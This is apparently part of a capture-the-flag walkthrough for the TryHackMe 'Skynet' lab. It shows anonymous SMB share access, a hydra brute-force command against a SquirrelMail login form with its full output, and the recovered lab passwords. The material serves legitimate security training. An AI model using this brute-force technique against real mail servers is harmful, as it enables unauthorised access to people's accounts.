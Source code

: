 Found "anonymous" share to be read only.

Went to File Explorer (GUI) --> Browse Network.

    smb://10.10.143.191

and copied anonymous folder.

log1.txt --> Contains potential passwords for squirrelmail (bruteforce hydra?), username miles.

Username: milesdyson
Password: cyborg007haloterminator

(tried them out one by one, although I feel hydra should work):

    kali@kali-[10.8.82.167]:~/labs/tryhackme/skynet$ hydra -l milesdyson -P log1.txt 10.10.143.191 http-form-post "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:incorrect"

    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-19 23:52:23

    [DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task

    [DATA] attacking http-post-form://10.10.143.191:80/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:incorrect

    [80][http-post-form] host: 10.10.143.191   login: milesdyson   password: cyborg007haloterminator                                                                      

    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-19 23:52:28

And it did!

We can now read the emails, and find a password for milesdyson:

)s{A&2Z=F^n_E.B`

![](images/squirrelmail_samba_pwd.png)
